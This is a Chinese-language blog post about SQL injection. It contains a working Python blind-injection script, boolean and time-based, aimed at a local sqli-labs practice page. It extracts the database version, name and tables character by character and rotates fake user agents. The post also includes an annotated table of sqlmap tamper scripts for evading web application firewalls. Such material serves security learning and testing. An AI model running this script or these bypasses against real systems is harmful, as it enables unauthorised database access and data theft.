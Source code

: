 ```yaml
---
title: sql injection
date: 2018-04-06 20:19:18
tags: [security,sql]
---
```

SQL注入,问题经常来源于sql语句字符串拼接的时候未作过滤,其中世界上最好的语言之一——PHP——出现的问题最多.

SQl注入通常用于在线管理自己的数据库👌,臃肿的PhpMyAdmin,需要下载的数据库连接软件.哪里有直接抄起键盘在地址栏直接输入就能管理来的快乐

# 我选择IE6
有比在IE里面上网冲浪更快乐的事情么?
<!--more-->

# 我选择自写脚本
自写脚本更能针对化的对应环境,对于白盒测试~~或者批量~~值得使用.
```python
# coding=utf-8
import string
import time
import requests
import fake_useragent


class Example:

    def __init__(self):
        self.get_table = """select group_concat(distinct table_name) from """ + \
                         """information_schema.columns where table_schema=database()"""
        self.get_database = """select database()"""
        self.get_version = """select @@version"""


def is_success_by_boolen(get_url):
    ua = fake_useragent.UserAgent()
    header = {"User-Agent": ua.random}
    r = requests.get(get_url, headers=header)
    success = "Your Login name"
    if success in r.text:
        return True
    else:
        return False


def is_success_by_time(get_url):
    ua = fake_useragent.UserAgent()
    header = {"User-Agent": ua.random}
    before_time = time.time()
    r = requests.get(get_url, headers=header)
    after_time = time.time()
    offset = after_time - before_time
    success = 8
    if success < offset:
        return True
    else:
        return False


def sql_fun(sql_fun):
    url = r"""http://localhost/sqlilabs/practice/example1.php?id=1' and ({0}) --+"""
    # Timing-based Blind SQL Attacks
    # url = r"""http://localhost/sqlilabs/practice/example1.php?id=1' and if(({0}),sleep(10),0) --+"""

    _long = -1
    out = ""
    for i in range(1, 9999, 1):
        sql = """LENGTH(({0}))={1}""".format(sql_fun, i)
        if is_success_by_boolen(url.format(sql)):
            _long = i
            break
        else:
            pass

    for i in range(1, _long, 1):
        for j in string.printable:#TODO: 二分法优化
            sql = """(substr(({0}),{1},1))=("{2}")""".format(sql_fun, i, j)
            if is_success_by_boolen(url.format(sql)):
                out += '' + j
                break
            else:
                pass
    return out


if __name__ == '__main__':
    print "{0}:  {1}".format(Example().get_version, sql_fun(Example().get_version))

```

# 我选择sqlmap

sqlmap内置有万能的脚本,对于黑盒测试值得使用.

脚本|直译|备注
--|--|--
apostrophemask|单引号伪装|使用*UTF-8*
apostrophenullencode|单引号null编码|用双字节的unicode字符
appendnullbyte|尾部添加null字节|
base64encode|base64编码
between|即*between*|替换 *<* *=* *>*
bluecoat|bypass Blue Coat Systems|老外的公司
chardoubleencode|字符两次编码|即两次url编码
charencode|...|
charunicodeencode|字符unicode编码|即 *%uxxxx* 编码
charunicodeescape|字符unicode转义|即 *\\uxxxx* 编码
commalessmid|mid更少的逗号|MID(A,B,C) --> MID(A FROM B FOR C)
commalesslimit|limit更少的逗号|LIMIT M, N --> LIMIT N OFFSET M
commentbeforeparentheses|括号之前注释|
concat2concatws|concat --> concat_ws|
equaltolike|*=* --> *like*|
escapequotes|转义引号|引号前面加 **\\\\**  (意义?)
greatest|GREATEST()|返回参数的最大值,用于替换*and*后的 *>*
halfversionedmorekeywords|_更多的关键字在一半的版本上_(?)|即加注释,如 */\*!0UNION*<br/>(MySQL < 5.1)
htmlencode|html编码|即 *&#xx;* 编码
ifnull2casewhenisnull|IFNULL() -->CASE WHEN ISNULL()|没见过的操作
ifnull2ifisnull|IFNULL()-->IF ISNULL()|...
informationschemacomment|information_schema注释|information_schema/**/.table
least|LEAST()|返回参数的最小值,用于替换*and*后的 *>*
lowercase|小写|
modsecurityversioned|_ModSecurity版本_(?)|开源的WAF
modsecurityzeroversioned|_ModSecurity零版本_(?)|..
multiplespaces|多个空格|就是瞎鸡儿加空格
nonrecursivereplacement|非递归替换|union --> uni**union**on
overlongutf8|超长的UTF-8|即 *%xx%xx* 编码(不转换字母)
overlongutf8more|更长的UTF-8|即 *%xx%xx* 编码...(转换字母)
percentage|百分号|select --> S%E%L%E%C%T
plus2concat| + --> CONCAT() |适用于(char(x)+char(x))
plus2fnconcat| + --> {fn CONCAT()}|ODBC only
randomcase|随机大小写|
randomcomments|随机注释|__/**/__
securesphere|SecureSphere|WAF
sp_password|sp_password|日志
space2*|spacee -> *
symboliclogical|逻辑符号|AND/OR -> &&/&Iota;&Iota;
unionalltounion|union all -> union|
unmagicquotes|魔术引号|即%bf%27,神奇的**縗'**
uppercase|大写|
varnish|Varnish|WAF
versionedkeywords|_版本的关键字_(?)|即/!*select/,不包括函数
versionedmorekeywords|_更多的版本的关键字_(?)|即/!*select/,包括函数
xforwardedfor|X-Forwarded-For|

# 我选择"啊D"
是...是大佬呢...

<!--小弟我对大佬你的景仰犹如滔滔江水连绵不绝又如黄河泛滥一发不可收拾天地可证日月可鉴。-->

# <p style="font-size:16px">参考链接:</p>

[Sql中操纵字符串的函数方法](https://mariadb.com/kb/en/library/string-functions/)

[SQLMap Tamper Scripts (SQL Injection and WAF bypass)](https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423)

